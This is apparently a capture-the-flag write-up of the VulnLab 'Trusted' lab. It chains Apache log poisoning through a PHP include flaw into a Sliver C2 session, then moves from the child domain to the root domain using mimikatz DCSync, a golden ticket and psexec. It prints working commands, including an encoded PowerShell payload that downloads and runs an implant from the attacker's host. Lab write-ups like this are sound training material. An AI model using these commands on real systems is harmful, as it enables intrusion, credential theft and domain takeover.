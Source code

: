 ```yaml
---
title: "Trusted Writeup (VulnLab)"
date: 2025-05-21 00:00:00 +0800
image: /assets/posts/trusted/trustedPwn.png
description: An easy rated chain on vulnlab, utilising apache log poisoning for initial access, with bidirectional trust abuse and golden tickets for root.
categories: [CTF Writeups]
tags: [CTF, Red Team, Poisoning, Domain Trusts, Golden Tickets, C2, Active Directory]
---
```


# Introduction
This box presents a multi-stage Active Directory attack path across a trusted domain setup. Starting with an Apache log poisoning vulnerability for initial access, we go deeper into the environment by leveraging cross-domain trust. Through post-exploitation and enumeration, we discover a bidirectional trust between domains—allowing for a DCSync attack to extract the krbtgt hash and create a Golden Ticket, granting access to the root domain controller.

## NMAP Port scans
We start off our writeup with an NMAP scan targeting 2 IP Addresses, they include:
```bash
10.10.218.86
10.10.218.85
```
```bash
sudo nmap -sS -sV -A -p- --min-rate 2500 -iL hosts.txt -oA nmapScan --disable-arp-ping --source-port=53
```
![NMAP Scan Result](../assets/posts/trusted/nmapscanresult1.png)
![NMAP Scan Result 2](../assets/posts/trusted/nmapscanresult2.png)


## User Flag

### HTTP Enumeration
From the results, it is clear that these machines are both Domain Controllers, I’ll target the ‘labdc.trusted.vl’ DC first, by browsing to the site on Port 80 HTTP: 
![xampp](../assets/posts/trusted/xampp.png)
The site showcases a default XAMPP webpage, we can perform directory brute-forcing using feroxbuster in an attempt to uncover any hidden directories that exist:
```bash
feroxbuster -u http://labdc.lab.trusted.vl -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -t 20
```
```bash
301      GET        9l       30w      350c http://labdc.lab.trusted.vl/dev => http://labdc.lab.trusted.vl/dev/
301      GET        9l       30w      357c http://labdc.lab.trusted.vl/dev/images => http://labdc.lab.trusted.vl/dev/images/
301      GET        9l       30w      354c http://labdc.lab.trusted.vl/dev/css => http://labdc.lab.trusted.vl/dev/css/
200      GET      612l     1583w    11331c http://labdc.lab.trusted.vl/dev/css/style.css
200      GET       31l      195w    17155c http://labdc.lab.trusted.vl/dev/images/logo.png
200      GET       35l      209w    17125c http://labdc.lab.trusted.vl/dev/images/meeting.jpg
200      GET       30l      162w    11333c http://labdc.lab.trusted.vl/dev/images/smile.jpg
200      GET       24l      156w    11896c http://labdc.lab.trusted.vl/dev/images/family-small.jpg
```
A directory is discovered under ‘/dev’, manually viewing this webpage presents us with a lawyer's website along with a suspicious parameter ‘?view=’:
![http1](../assets/posts/trusted/http1.png)

### Apache Log Poisoning to C2 Session
We can exploit the discovered parameter through apache log poisoning, this was uncovered after manually viewing the source code of the index page through php filtering:
```bash
https://labdc.lab.trusted.vl/dev/index.html?view=php://filter/convert.base64-encode/resource=index.html
```
```bash
base64 -d source.b64 > index.html
```
![httpvuln1](../assets/posts/trusted/httpvuln1.png)
The vulnerable area is the unsanitised usage of PHP’s include function. We can check for the existence of the access.log file to see if it’d be vulnerable to log poisioning:
```bash
https://labdc.lab.trusted.vl/dev/index.html?view=C:/xampp/apache/logs/access.log
```
![httpvuln2](../assets/posts/trusted/httpvuln2.png)

After confirmation that the access.log file exists on the server, we can create a powershell payload to be executed, this code downloads a Sliver session payload, stores it in the users temp directory and proceeds to execute it:
```bash
$u="http://10.8.4.194:443/output.exe";$f="$env:TEMP\output.exe.exe";Invoke-WebRequest $u -OutFile $f;Start-Process $f
```
With our completed payload, we have to convert it into UTF-16LE and then base64 encode so it is in a readable format for powershell. Then we can finally send our payload as the user-agent to the website:
```bash
 curl -A "<?php system('powershell -e JAB1AD0AIgBoAHQAdABwADoALwAvADEAMAAuADgALgA0AC4AMQA5ADQAOgA0ADQAMwAvAG8AdQB0AHAAdQB0AC4AZQB4AGUAIgA7ACQAZgA9ACIAJABlAG4AdgA6AFQARQBNAFAAXABvAHUAdABwAHUAdAAuAGUAeABlAC4AZQB4AGUAIgA7AEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAZgA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAkAGYACgA='); ?>" http://labdc.lab.trusted.vl/dev/index.html?view=me
 ```
 We can then execute the payload by visiting the access.log file:
 ```bash
 curl -X GET https://labdc.lab.trusted.vl/dev/index.html?view=C:/xampp/apache/logs/access.log --insecure
 ```

 Accessing the file automatically executes our powershell payload and we are granted a C2 Session:
 ![session](../assets/posts/trusted/session.png)

 We can read the user.txt flag from the directory 'C:\users\Administrator\Desktop\user.txt':
 ```bash
 type C:\users\Administrator\Desktop\user.txt
 ```
![session](../assets/posts/trusted/user.png)

## Root Flag

### LABDC.lab.trusted.vl Enumeration and Post-Exploitation
 We can then gather domain information using sliver’s armory implementation of sharphound:
 ```bash
 sharp-hound-4 -s -t 300 -- -c all,gpolocalgroup
 ```
 ![sharp](../assets/posts/trusted/sharp.png)
 SharpHound didn’t yield any useful results, however we know from previous enumeration that lab.trusted.vl is a child domain of trusted.vl. Mimikatz can be used to enumerate the inbound and outbound trusts:
 ```bash
 mimikatz "privilege::debug" "\"lsadump::trust /patch"
 ```
![mimitrust](../assets/posts/trusted/mimitrust.png)
From the mimikatz output, it is clear there is a bidirectional trust between the child and root domain, the domain SIDS are retrieved from the mimikatz output.
```bash
LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)
TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591)
```

### Abusing Bidirectional Trust: DCSync to Golden Ticket
As there is a bidirectional trust, we can DCSync and grab the ‘krbtgt’ hash from the compromised 'labdc.lab.trusted.vl' machine. To later perform a golden ticket attack:
```bash
mimikatz "privilege::debug" "\"lsadump::dcsync /domain:lab.trusted.vl /user:LAB\krbtgt"
```
![mimidcsync](../assets/posts/trusted/mimidcsync.png)
After successful retrieval of the krbtgt hash, we can combine the domain sids and the hash to create a golden ticket for the root domain ‘trusted.vl’:
```bash
impacket-ticketer -nthash c7a03c565c68c6fac5f8913fab576ebd -domain lab.trusted.vl -domain-sid "S-1-5-21-2241985869-2159962460-1278545866" -extra-sid "S-1-5-21-3576695518-347000760-3731839591-512" Administrator -extra-pac
```
![gldnticket](../assets/posts/trusted/gldnticket.png)
With our golden ticket now created, we can set it as our kerberos ticket within the attacking OS:
```bash
export KRB55CNAME=Administrator.ccache
```
Then finally, psexec into the ‘trusteddc.trusted.vl’ domain controller using our golden ticket:
```bash
impacket-psexec 'lab.trusted.vl/Administrator@trusteddc.trusted.vl' -k -no-pass -target-ip 10.10.218.85
```
![psexec](../assets/posts/trusted/psexec.png)

As we are now logged in as NT AUTHORITY\SYSTEM, we can read the root flag right? WRONG!. The flag is EFS encrypted, therefore, we must reset the Administrators password and RDP into the box to decrypt the flag:
```bash
net user Administrator password123456@
```
```bash
xfreerdp3 /u:Administrator /p:password123456@ /v:trusteddc.trusted.vl +clipboard
```
![root](../assets/posts/trusted/root.png)
